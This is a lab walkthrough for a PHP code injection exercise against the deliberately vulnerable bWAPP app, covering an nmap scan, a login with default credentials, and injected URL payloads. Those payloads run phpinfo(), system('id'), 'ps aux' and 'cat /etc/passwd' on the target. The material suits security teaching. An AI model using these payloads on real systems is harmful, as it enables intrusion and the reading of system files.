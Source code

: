 ﻿![](Aspose.Words.db46b89b-6287-4138-af91-6cbfd603605b.001.png)

![ref1]
<table><tr><th colspan="1"><b>Name</b> </th><th colspan="1">PHP Code Injection </th></tr>
<tr><td colspan="1" rowspan="2"><b>URL</b> </td><td colspan="1" valign="bottom"><https://attackdefense.com/challengedetails?cid=1900> </td></tr>
<tr><td colspan="1"></td></tr>
<tr><td colspan="1"><b>Type</b> </td><td colspan="1">Webapp Pentesting Basics </td></tr>
</table>

**Important Note:** This document illustrates all the important steps required to complete this lab. This  is  by  no  means  a  comprehensive  step-by-step  solution for this exercise. This is only provided as a reference to various commands needed to complete this exercise and for your further research on this topic. Also, note that the IP addresses and domain names might be different in your lab.  

**Step 1:** Determining the IP address of the target machine. **Command:** ifconfig ![ref2]

![](Aspose.Words.db46b89b-6287-4138-af91-6cbfd603605b.004.jpeg)The IP address of the host machine is 192.183.205.2. Therefore, the target machine has IP address 192.183.205.3 

**Step 2:** Scan the target machine using nmap. **Command:** nmap 192.183.205.3 

![](Aspose.Words.db46b89b-6287-4138-af91-6cbfd603605b.005.png)

Port 80 and 3306 are open on the target machine. ![ref2]

**Step 3:** Interacting with the web application.Open the following URL in firefox: **URL:** http://192.183.205.3 


![](Aspose.Words.db46b89b-6287-4138-af91-6cbfd603605b.006.png)

bWAPP is hosted on the target machine. ![](Aspose.Words.db46b89b-6287-4138-af91-6cbfd603605b.007.jpeg)

Login into the webapp using the following credentials (indicated above the login fields): 

**Username:** bee ![ref2]**Password:** bug 

![ref1]

After successful login:  

![](Aspose.Words.db46b89b-6287-4138-af91-6cbfd603605b.008.jpeg)

**Step 4:** Select “PHP Code Injection” from the “Choose your Bug” dropdown menu: 

![](Aspose.Words.db46b89b-6287-4138-af91-6cbfd603605b.009.jpeg)

After selecting the bug, click on the Hack button. ![ref2]

That would lead to the following screen: 

![](Aspose.Words.db46b89b-6287-4138-af91-6cbfd603605b.010.jpeg)

**Step 5:** Click on the text “message” (in bold) to echo back a test message: ![ref2]

![](Aspose.Words.db46b89b-6287-4138-af91-6cbfd603605b.011.jpeg)

![](Aspose.Words.db46b89b-6287-4138-af91-6cbfd603605b.012.jpeg)

Notice the URL. There is a message parameter in the URL containing the text that is echoed back to the page. 

**Step 6:** Insert "hello" message in the message parameter and check the response. ![ref2]**Modified URL:** 192.183.205.3/phpi.php?message=hello 


![](Aspose.Words.db46b89b-6287-4138-af91-6cbfd603605b.013.png)

Notice that the string “hello” got echoed back this time. 

**Step 7:** Perform PHP Code Injection and execute phpinfo function to retrieve information about the web server. 

**Modified URL:** 192.183.205.3/phpi.php?message=hello;phpinfo() ![ref2]

![](Aspose.Words.db46b89b-6287-4138-af91-6cbfd603605b.014.png)

The phpinfo function was executed successfully. ![ref2]

**Step 8:** Leverage the vulnerability and execute system commands.  **Linux Command:** id 

**Modified URL:** 192.183.205.3/phpi.php?message=hello;system('id') 

![](Aspose.Words.db46b89b-6287-4138-af91-6cbfd603605b.015.png)

**Step 9:** List the processes running on the target machine. ![ref2]

**Linux Command:** ps aux 

**Modified URL:** 192.183.205.3/phpi.php?message=hello;system('ps aux') 

![](Aspose.Words.db46b89b-6287-4138-af91-6cbfd603605b.016.png)

**Step 10:** Retrieve the content of /etc/passwd file. **Linux Command:** cat /etc/passwd 

**Modified URL:** http://192.183.205.3/phpi.php?message=hello;system(%27cat%20/etc/passwd%27) ![ref2]

![](Aspose.Words.db46b89b-6287-4138-af91-6cbfd603605b.017.png)

The content of /etc/passwd file is dumped on the web page.  **References:** 

1. OWASP A1 Injection (![ref2][https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A1-Inject ion](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A1-Injection)) 
1. OWASP Top 10 (<https://owasp.org/www-project-top-ten/>) 
1. bWAPP (<http://www.itsecgames.com/>) 

[ref1]: Aspose.Words.db46b89b-6287-4138-af91-6cbfd603605b.002.png
[ref2]: Aspose.Words.db46b89b-6287-4138-af91-6cbfd603605b.003.png
